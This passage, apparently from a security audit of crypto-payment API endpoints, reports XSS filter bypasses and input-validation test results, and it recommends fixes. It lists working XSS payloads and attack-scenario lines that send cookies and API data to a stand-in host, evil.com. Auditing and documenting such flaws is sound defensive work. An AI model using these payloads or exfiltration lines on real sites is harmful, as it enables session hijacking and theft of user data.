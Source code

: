 
### 2. MASSIVE XSS VULNERABILITY (CRITICAL)
**Endpoints Affected:** `/api/sol/complete`, `/api/btc/complete`, `/api/sol/funding`  
**Success Rate:** 80% (24/30 payloads successful)

#### Confirmed XSS Payloads:
```javascript
✅ BYPASSED (200 OK):
- <script>alert("xss")</script>
- <img src=x onerror=alert("xss")>
- <svg onload=alert("xss")>
- javascript:alert("xss")
- "><script>alert("xss")</script>
- ${alert("xss")}
- {{alert("xss")}}
- <script>fetch("/api/security/metrics")</script> // DATA EXFILTRATION

❌ BLOCKED (400):
- '<script>alert('xss')</script>  // Single quotes detected
- <iframe src="javascript:alert('xss')"> // iframe blocked
```

#### Attack Scenarios:
- **Session Hijacking:** `<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>`
- **Credential Theft:** Inject keyloggers, form overlays
- **Admin Panel Access:** If XSS in admin context, full system compromise
- **Data Exfiltration:** `fetch("/api/security/metrics").then(r=>r.json()).then(data=>fetch("https://evil.com", {method:"POST", body:JSON.stringify(data)}))`

#### Fix Required:
- Implement proper HTML entity encoding
- Add Content Security Policy (CSP) headers
- Review and fix input sanitization in `InputSanitizer` class
- Implement output encoding for all user-controlled data

---

### 3. INPUT VALIDATION BYPASS (HIGH)
**Partial Protection:** SQL injection detected, XSS bypassed

#### Test Results:
```
💀 BAD DATA INJECTION TESTS - 4/6 tests passed
✅ SQL Injection in Symbol: BLOCKED
❌ XSS in Symbol: BYPASSED  
✅ SQL Injection in Query: BLOCKED
✅ Buffer Overflow: BLOCKED
✅ Invalid JSON: Handled correctly
❌ Oversized Body: Not blocked as expected (413 vs security block)
```

